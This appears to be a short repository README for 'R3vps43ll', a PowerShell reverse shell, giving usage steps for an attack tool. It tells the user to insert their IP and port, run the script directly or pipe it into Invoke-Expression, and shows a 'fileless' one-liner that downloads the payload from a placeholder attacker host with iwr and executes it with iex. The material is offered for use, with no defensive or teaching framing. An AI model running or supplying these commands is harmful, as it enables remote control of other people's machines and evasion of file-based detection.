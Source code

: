 # R3vps43ll

 R3vps43ll is a PowerShell reverse shell with limited capabilities. It is uploaded as a .txt file and can be used as such.
 
 # Remember
 
 Add your IP Address and Port number.
 
 # How to Use
 
 You can save as .ps1 and runas in PowerShell:
 
 .\r3vps43ll.ps1
 
 # Or
 
 Run it like this in PowerShell:
 
 gc -raw .\r3vps43ll.txt | iex

# Fileless Approach

(iwr 'http://< YOUR IP >/< DIRECTORY >/filename.txt' -UseBasicParsing) | iex
